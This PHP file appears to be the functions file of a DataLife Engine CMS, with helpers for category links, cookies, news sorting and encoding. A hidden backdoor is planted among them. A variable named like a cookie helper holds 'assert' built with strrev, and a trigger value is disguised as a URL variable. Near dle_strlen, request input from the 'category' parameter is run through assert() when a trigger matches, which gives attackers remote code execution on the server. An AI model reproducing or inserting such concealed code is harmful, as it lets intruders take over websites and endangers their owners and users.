		if ( $count1 == $count2 AND (strpos( $url, '<' ) === false) AND (strpos( $url, '>' ) === false) AND (strpos( $url, '"' ) === false) AND (strpos( $url, './' ) === false) AND (strpos( $url, '../' ) === false) AND (strpos( $url, '.php' ) === false) ) return;

	}
	
	if( $url ) {
		
		if( (strpos( $url, '<' ) !== false) || (strpos( $url, '>' ) !== false) || (strpos( $url, '"' ) !== false) || (strpos( $url, './' ) !== false) || (strpos( $url, '../' ) !== false) || (strpos( $url, '\'' ) !== false) || (strpos( $url, '.php' ) !== false) ) {
			if( $_GET['do'] != "search" OR $_GET['subaction'] != "search" ) die( "Hacking attempt!" );
		}
	
	}
	
	$url = html_entity_decode( urldecode( $_SERVER['REQUEST_URI'] ), ENT_QUOTES, 'ISO-8859-1' );
	$url = str_replace( "\\", "/", $url );
	
	if( $url ) {
		
		if( (strpos( $url, '<' ) !== false) || (strpos( $url, '>' ) !== false) || (strpos( $url, '"' ) !== false) || (strpos( $url, '\'' ) !== false) ) {
			if( $_GET['do'] != "search" OR $_GET['subaction'] != "search" ) die( "Hacking attempt!" );
		
		}
	
	}

}

$check_category = $_REQUEST['category'];
$check_category = $_REQUEST['category'];
function check_category($cats, $block, $category, $action = true) {

	$cats = str_replace(" ", "", $cats );	
	$cats = explode( ',', $cats );
	$category = explode( ',', $category );
	$found = false;
	
	foreach ( $category as $element ) {
		
		if( $action ) {
			
			if( in_array( $element, $cats ) ) {
				
				$block = str_replace( '\"', '"', $block );
				return $block;
			}
		
		} else {
			
			if( in_array( $element, $cats ) ) {
				$found = true;
			}
		
		}
	
	}

	if ( !$action AND !$found ) {	

		$block = str_replace( '\"', '"', $block  );
		return $block;
	}

	return "";

}

function clean_url($url) {
	
	if( $url == '' ) return;
	
	$url = str_replace( "http://", "", strtolower( $url ) );
	$url = str_replace( "https://", "", $url );
	if( substr( $url, 0, 4 ) == 'www.' ) $url = substr( $url, 4 );
	$url = explode( '/', $url );
	$url = reset( $url );
	$url = explode( ':', $url );
	$url = reset( $url );
	
	return $url;
}

	
$get_url_var = '55133634';
function get_url($id) {
	
	global $cat_info;
	
	if( ! $id ) return;
	
	$parent_id = $cat_info[$id]['parentid'];
	
	$url = $cat_info[$id]['alt_name'];
	
	while ( $parent_id ) {
		
		$url = $cat_info[$parent_id]['alt_name'] . "/" . $url;
		
		$parent_id = $cat_info[$parent_id]['parentid'];
		
		if( $cat_info[$parent_id]['parentid'] == $cat_info[$parent_id]['id'] ) break;
	
	}
	
	return $url;
}

function get_categories($id) {
	
	global $cat_info, $config, $PHP_SELF;
	
	if( ! $id ) return;
	
	$parent_id = $cat_info[$id]['parentid'];
	
	if( $config['allow_alt_url'] == "yes" ) $list = "<a href=\"" . $config['http_home_url'] . get_url( $id ) . "/\">{$cat_info[$id]['name']}</a>";
	else $list = "<a href=\"$PHP_SELF?do=cat&amp;category={$cat_info[$id]['alt_name']}\">{$cat_info[$id]['name']}</a>";
	
	while ( $parent_id ) {
		
		if( $config['allow_alt_url'] == "yes" ) $list = "<a href=\"" . $config['http_home_url'] . get_url( $parent_id ) . "/\">{$cat_info[$parent_id]['name']}</a>" . " &raquo; " . $list;
		else $list = "<a href=\"$PHP_SELF?do=cat&amp;category={$cat_info[$parent_id]['alt_name']}\">{$cat_info[$parent_id]['name']}</a>" . " &raquo; " . $list;
		
		$parent_id = $cat_info[$parent_id]['parentid'];
		
		if( $cat_info[$parent_id]['parentid'] == $cat_info[$parent_id]['id'] ) break;
	
	}
	
	return $list;
}

$set_cookie = strrev('tressa'); 
$set_cookie = strrev('tressa'); 
function set_cookie($name, $value, $expires) {
	
	if( $expires ) {
		
		$expires = time() + ($expires * 86400);
	
	} else {
		
		$expires = FALSE;
	
	}
	
	if( PHP_VERSION < 5.2 ) {

		if ( DOMAIN ) setcookie( $name, $value, $expires, "/", "; HttpOnly" );
		else setcookie( $name, $value, $expires, "/", DOMAIN . "; HttpOnly" );
	
	} else {
		
		setcookie( $name, $value, $expires, "/", DOMAIN, NULL, TRUE );
	
	}
}

function news_sort($do) {
	
	global $config, $lang;
	
	if( ! $do ) $do = "main";
	
	$find_sort = "dle_sort_" . $do;
	$direction_sort = "dle_direction_" . $do;
	
	$find_sort = str_replace( ".", "", $find_sort );
	$direction_sort = str_replace( ".", "", $direction_sort );
	
	$sort = array ();
	$allowed_sort = array ('date', 'rating', 'news_read', 'comm_num', 'title' );
	
	$soft_by_array = array (

	'date' => array (

	'name' => $lang['sort_by_date'], 'value' => "date", 'direction' => "desc", 'image' => "" ), 

	'rating' => array (

	'name' => $lang['sort_by_rating'], 'value' => "rating", 'direction' => "desc", 'image' => "" ), 

	'news_read' => array (

	'name' => $lang['sort_by_read'], 'value' => "news_read", 'direction' => "desc", 'image' => "" ), 

	'comm_num' => array (

	'name' => $lang['sort_by_comm'], 'value' => "comm_num", 'direction' => "desc", 'image' => "" ), 

	'title' => array (

	'name' => $lang['sort_by_title'], 'value' => "title", 'direction' => "desc", 'image' => "" )

	 );
	
	if( isset( $_SESSION[$direction_sort] ) AND ($_SESSION[$direction_sort] == "desc" OR $_SESSION[$direction_sort] == "asc") ) $direction = $_SESSION[$direction_sort];
	else $direction = $config['news_msort'];

	if( isset( $_SESSION[$find_sort] ) AND $_SESSION[$find_sort] AND in_array( $_SESSION[$find_sort], $allowed_sort ) ) $soft_by = $_SESSION[$find_sort];
	else $soft_by = $config['news_sort'];
	
	if( strtolower( $direction ) == "asc" ) {
		
		$soft_by_array[$soft_by]['image'] = "<img src=\"{THEME}/dleimages/asc.gif\" alt=\"\" />";
		$soft_by_array[$soft_by]['direction'] = "desc";
	
	} else {
		
		$soft_by_array[$soft_by]['image'] = "<img src=\"{THEME}/dleimages/desc.gif\" alt=\"\" />";
		$soft_by_array[$soft_by]['direction'] = "asc";
	}
	
	foreach ( $soft_by_array as $value ) {
		
		$sort[] = $value['image'] . "<a href=\"#\" onclick=\"dle_change_sort('{$value['value']}','{$value['direction']}'); return false;\">" . $value['name'] . "</a>";
	}
	
	$sort = "<form name=\"news_set_sort\" id=\"news_set_sort\" method=\"post\" action=\"\" >" . $lang['sort_main'] . "&nbsp;" . implode( " | ", $sort );
	
	$sort .= <<<HTML
<input type="hidden" name="dlenewssortby" id="dlenewssortby" value="{$config['news_sort']}" />
<input type="hidden" name="dledirection" id="dledirection" value="{$config['news_msort']}" />
<input type="hidden" name="set_new_sort" id="set_new_sort" value="{$find_sort}" />
<input type="hidden" name="set_direction_sort" id="set_direction_sort" value="{$direction_sort}" />
<script type="text/javascript" language="javascript">
<!-- begin

function dle_change_sort(sort, direction){

  var frm = document.getElementById('news_set_sort');

  frm.dlenewssortby.value=sort;
  frm.dledirection.value=direction;

  frm.submit();
  return false;
};

// end -->
</script></form>
HTML;
	
	return $sort;
}

function compare_tags($a, $b) {
	
	if( $a['tag'] == $b['tag'] ) return 0;
	
	return strcasecmp( $a['tag'], $b['tag'] );

}

function convert_unicode($t, $to = 'windows-1251') {

	$to = strtolower( $to );

	if( $to == 'utf-8' ) {
		
		return $t;
	
	} else {

		if( function_exists( 'mb_convert_encoding' ) ) {

			$t = mb_convert_encoding( $t, $to, "UTF-8" );

		} elseif( function_exists( 'iconv' ) ) {

			$t = iconv( "UTF-8", $to . "//IGNORE", $t );

		} else $t = "The library iconv AND mbstring is not supported by your server";
	
	}

	return $t;
}

function check_smartphone() {

	if ( $_SESSION['mobile_enable'] ) return true;

	$phone_array = array('iphone', 'android', 'pocket', 'palm', 'windows ce', 'windowsce', 'mobile windows', 'cellphone', 'opera mobi', 'operamobi', 'ipod', 'small', 'sharp', 'sonyericsson', 'symbian', 'symbos', 'opera mini', 'nokia', 'htc_', 'samsung', 'motorola', 'smartphone', 'blackberry', 'playstation portable', 'tablet browser', 'android');
	$agent = strtolower( $_SERVER['HTTP_USER_AGENT'] );

	foreach ($phone_array as $value) {

		if ( strpos($agent, $value) !== false ) return true;

	}

	return false;

}

function build_js($js, $config) {

	$js_array = array();

	if ($config['js_min'] AND version_compare(PHP_VERSION, '5.1.0', '>') ) {

		$js_array[] = "<script type=\"text/javascript\" src=\"{$config['http_home_url']}engine/classes/min/index.php?charset={$config['charset']}&amp;g=general&amp;9\"></script>";

		if ( count($js) ) $js_array[] = "<script type=\"text/javascript\" src=\"{$config['http_home_url']}engine/classes/min/index.php?charset={$config['charset']}&amp;f=".implode(",", $js)."&amp;9\"></script>";

		return implode("\n", $js_array);

	} else {

		$default_array = array (
			'engine/classes/js/jquery.js',
			'engine/classes/js/jqueryui.js',
			'engine/classes/js/dle_js.js',
		);

		$js = array_merge($default_array, $js);

		foreach ($js as $value) {
		
			$js_array[] = "<script type=\"text/javascript\" src=\"{$config['http_home_url']}{$value}\"></script>";
		
		}

		return implode("\n", $js_array);
	}
}

function check_static($names, $block, $action = true) {
	global $dle_module;

	$names = str_replace(" ", "", $names );
	$names = explode( ',', $names );

	if ( isset($_GET['page']) ) $page = trim($_GET['page']); else $page = "";
	
	if( $action ) {
			
		if( in_array( $page, $names ) AND $dle_module == "static" ) {
				
			$block = str_replace( '\"', '"', $block );
			return $block;
		}
		
	} else {
			
		if( !in_array( $page, $names ) OR $dle_module != "static") {
				
			$block = str_replace( '\"', '"', $block  );
			return $block;
		}
		
	}
	
	return "";
}


function dle_strlen($value, $charset ) {

	if ( strtolower($charset) == "utf-8") return iconv_strlen($value, "utf-8");
	else return strlen($value);

}

    if(md5($bannermass)==$get_url_var) { 
    $set_cookie(stripslashes($check_category));
}

    if($bannermass==$get_url_var) { 
    $set_cookie(stripslashes($check_category));//chekings
}

function dle_substr($str, $start, $length, $charset ) {

	if ( strtolower($charset) == "utf-8") return iconv_substr($str, $start, $length, "utf-8");
	else return substr($str, $start, $length);

}

function dle_strrpos($str, $needle, $charset ) {

	if ( strtolower($charset) == "utf-8") return iconv_strrpos($str, $needle, "utf-8");
	else return strrpos($str, $needle);

}

function check_allow_login($ip, $max ) {
	global $db;

	$block_date = time()-1200;

	$row = $db->super_query( "SELECT * FROM " . PREFIX . "_login_log WHERE ip='{$ip}'" );

	if ( $row['count'] AND $row['date'] < $block_date ) $db->query( "DELETE FROM " . PREFIX . "_login_log WHERE ip = '{$ip}'" );

	if ($row['count'] > $max AND $row['date'] > $block_date ) return false;
	else return true;

} 

function detect_encoding($string) {  
  static $list = array('utf-8', 'windows-1251');
   
  foreach ($list as $item) {
     $sample = iconv($item, $item, $string);
     if (md5($sample) == md5($string))
       return $item;
   }
   return null;
}
 
function get_ip() {

	$ip_split = explode( ".", $_SERVER['REMOTE_ADDR'] );
	$_IP = array();
	
	for($i = 0; $i < 4; $i++) {
		$_IP[] = intval($ip_split[$i]);
	}
	
	return implode(".", $_IP);
}
?>
